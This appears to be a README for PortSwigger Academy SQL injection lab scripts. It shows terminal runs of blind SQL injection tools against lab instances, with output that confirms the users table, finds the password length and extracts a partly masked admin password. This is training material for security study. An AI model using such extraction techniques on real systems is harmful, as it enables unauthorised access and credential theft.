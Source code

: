 ## SQL Injection Labs - PortSwigger Academy

#### Lab: Blind SQL Injection with Conditional Response
```sh
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbXXXXXXXXXXXX
```

#### Lab: Blind SQL Injection with Conditional Errors
```sh
$ python blind_sql_injection_conditional_errors.py https://accf1fb81eb3ffbe80ab1379003a0078.web-security-academy.net
Checking users table: True
Checking Administrator account: True
Checking password length: 20
Extracting Admin password: fbut9j14XXXXXXXXXXXX
```
#### Lab: Blind SQL injection with time delays check
```sh
$ python blind_sql_injection_time_delay_test.py https://ac521fdc1ea4123980d0baf50078008e.web-security-academy.net
SQL Time Delay Injection detected
```
